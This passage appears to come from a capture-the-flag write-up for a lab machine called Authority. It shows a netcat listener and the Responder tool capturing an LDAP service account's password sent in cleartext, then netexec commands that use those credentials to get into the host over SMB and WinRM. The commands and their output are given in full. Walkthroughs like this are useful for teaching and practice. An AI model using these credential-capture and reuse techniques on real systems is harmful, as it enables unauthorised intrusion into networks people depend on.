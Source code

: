 ![image-20231127130706990](../img/image-20231127130706990.png)

I’ll listen with `nc` on 389 and click “Test LDAP Profile”:

    
    
    oxdf@hacky$ nc -lnvp 389
    Listening on 0.0.0.0 389
    Connection received on 10.10.11.222 61956
    0Y`T;CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htblDaP_1n_th3_cle4r!
    

The password is “lDaP_1n_th3_cle4r!”, though it’s not trivial to see in that
capture, as there are non-ASCII characters in this data that the terminal just
drops. It’s easier to see in Wireshark:

![image-20231127131357051](../img/image-20231127131357051.png)

Authority is acting as the client trying to authenticate to my VM, and sends
these creds in the clear. [Responder](https://github.com/lgandx/Responder)
will also listen for and capture these creds:

    
    
    [+] Listening for events...
    
    [LDAP] Cleartext Client   : 10.10.11.222
    [LDAP] Cleartext Username : CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
    [LDAP] Cleartext Password : lDaP_1n_th3_cle4r!
    

### WinRM

Those creds work with the svc_ldap account over both SMB and WinRM:

    
    
    oxdf@hacky$ netexec smb authority.htb -u svc_ldap -p 'lDaP_1n_th3_cle4r!'
    SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10.0 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False)
    SMB         10.10.11.222    445    AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r!
    oxdf@hacky$ netexec winrm authority.htb -u svc_ldap -p 'lDaP_1n_th3_cle4r!'
    SMB         10.10.11.222    5985   AUTHORITY        [*] Windows 10.0 Build 17763 (name:AUTHORITY) (domain:authority.htb)
    HTTP        10.10.11.222    5985   AUTHORITY        [*] http://10.10.11.222:5985/wsman
    HTTP        10.10.11.222    5985   AUTHORITY        [+] authority.htb\svc_ldap:lDaP_1n_th3_cle4r! (Pwn3d!)
    